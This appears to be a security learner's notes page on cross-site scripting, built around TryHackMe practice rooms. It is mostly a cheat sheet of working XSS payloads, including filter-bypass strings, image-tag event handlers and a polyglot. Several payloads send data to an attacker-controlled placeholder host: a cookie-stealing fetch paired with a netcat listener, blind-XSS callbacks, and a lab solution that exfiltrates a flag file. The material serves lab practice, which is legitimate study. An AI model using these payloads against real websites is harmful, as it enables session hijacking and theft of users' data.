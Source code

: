 ```yaml
---
description: XSS (cross-site scripting).
---
```


# XSS

## 4 types of XSS attack methods:

1. Reflected XSS
2. Stored XSS
3. DOM XSS
4. Blind XSS

{% embed url="https://github.com/mandatoryprogrammer/xsshunter-express" %}

### Methods to load XSS payload

1. URL file path, or query parameters
2. Insecure Javascript functions
   * `eval()`
3. Non-validated user input forms
4. window.location.x&#x20;
   * Eg. `window.location.hash`

### Perfecting payload

_<mark style="color:green;">**Practice room:**</mark>_ [https://tryhackme.com/r/room/xss](https://tryhackme.com/r/room/xss), Task 7 (Perfecting your payload)

Some of the examples listed below are taken from the TryHackMe (THM) practice lab link above.

#### 1. Input within \<h2> tag with no filter _(THM level 1)_

a) Simply `<script>alert('XSS');</script>`

#### 2. Input used as value attribute of \<input> tag (_THM level 2)_

> Eg. XSS payload input: `<script>alert('XSS');</script>`->  `<input value="<script>alert('XSS');"</script>">`

a) `"> <script>alert('XSS');</script>`

* `"`: The first quotation mark is used to escape from the `value` attribute of the `<input>` tag
* `>`: The > character is used to close the `<input>` tag&#x20;

#### 3. Input used as value within \<textarea> tag _(THM level 3)_

> Eg. XSS payload input: `<script>alert('XSS');</script>`-> `<textarea><script>alert('XSS');</script></textarea>`

a) `</textarea> <script>alert('XSS');</script>`

* `</textarea>`: The \<textarea> closing tag to close the textarea

#### 4. Input used as value to innerHTML in a script (within a \<script> tag) _(THM level 4)_

> Eg. XSS payload input: `<script>alert('XSS');</script>` -> `<script> document.getElementsByClassName(...)[0].innerHTML='<script>alert('XSS'); ...`

_a)_ `'; alert('XSS'); //`&#x20;

* `'`:  To escape from the field
* `;`:  To signify end of command on the current line in JavaScript
* `//`: Makes the code after the alert statement to be comments (to not be executed)

_b)_ `' </script> <script> alert('THM');</script>`

* `'`: To escape from the field
* `</script>`: To close the original \<script> tag, to allow for opening of a new \<script> tag

#### 5. Filter that removes the word _script (THM level 5)_

> `Eg. <script>alert('XSS');</script>` -> `<>alert('XSS');</>`

`a) <scripscriptt>alert('XSS');</scripscriptt>`&#x20;

&#x20;    -> `<scrip`~~`script`~~`t>alert('XSS');</scrip`~~`script`~~`t>`

&#x20;    -> `<script>alert('XSS');</script>`



#### 6. Input used as value for the src attribute of the img tag, with HTML opening/closing tags removed (`<` and `>`) (level 6)

> Eg.&#x20;
>
> Valid input: <mark style="color:green;">/images/test.jpg</mark> -> `<img src="/images/test.jpg" >`
>
> XSS payload input: <mark style="color:red;">"> \<script>alert('XSS');\</script></mark> -> `<img src="" scriptalert('xss');="" script"="">` (< and > removed)

_**How to bypass:**_

&#x20;a) `/images/cat.jpg " onload="javascript:alert('THM');"`

* Instead of escaping out of the `<img>` tag to create a new `<script>` tag, an inline attribute can be used to call a script instead
* `/images/cat.jpg`:  Can be any other valid path to an image that exists. This is to trigger the `onload` attribute function to be called after the image has loaded.&#x20;
* `"`:  The quotation marks right after the invalid image file path is used to escape the `src` attribute, and create the `onload` attribute

`b) / " onerror="alert('XSS');"`

* Similar  to part a)
* `/`:  Can be any other invalid path to an image that does not exists. This is to trigger the `onerror` attribute function to be called.&#x20;
* `"`:  The quotation marks right after the invalid image file path is used to escape the `src` attribute, and create the `onerror` attribute

#### 8. IMG tag

`a) <img src="/invalid-path" onerror="alert('XSS');">`

`b) <img src="/valid-path" onload="alert('THM');">`

`c)` _**Extract the cookies?**_ :cookie: _**:**_ `<img src="/invalid-path" onerror="(function(){console.log(document.cookie);fetch('https://<server_address>:8888?cookie='+btoa(document.cookie));})()">`

Netcat command to listen at the _**\<server\_address>:**_

```bash
$ nc -nvlp 8888
```

&#x20;  -> Log the cookie and send an API call with the cookie as the request body



9. **Disallow `<script></script>` tag**

a) Use anchor tag: `<a onmouseover="javascript:alert('XSS');">...</a>`

b) Use iframe tag: `<iframe src="javascript:alert('XSS');">`

_... refer to OWASP cheat sheet below for more examples_



### Polygots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.&#x20;

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e``

Taken from: [https://tryhackme.com/r/room/xss](https://tryhackme.com/r/room/xss)

## Blind XSS payloads

1. `'"> <script>fetch('http://<IP>:[port]?xss=yay')</script>`
2. `'"> <script src="http://<IP>:[port]?xss=yay"></script>`&#x20;
3. `<img/>`,`<object/>`
4. ``<iframe src="javascript:alert(`xss`)"/>``

{% embed url="https://github.com/lauritzh/blind-xss-payloads/blob/main/README.md" %}

## Practice

{% embed url="https://tryhackme.com/r/room/thestickershop" %}

_**Blind XSS payload:**_

`"><script>(function(){`\
`fetch("http://127.0.0.1:8080/flag.txt").then(res=>res.text()).then(data=>fetch("http://<attack_box_ip>:<port>?v="+btoa(data)));`\
`})()</script>`



{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" %}
OWASP XSS filter evasion cheat sheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

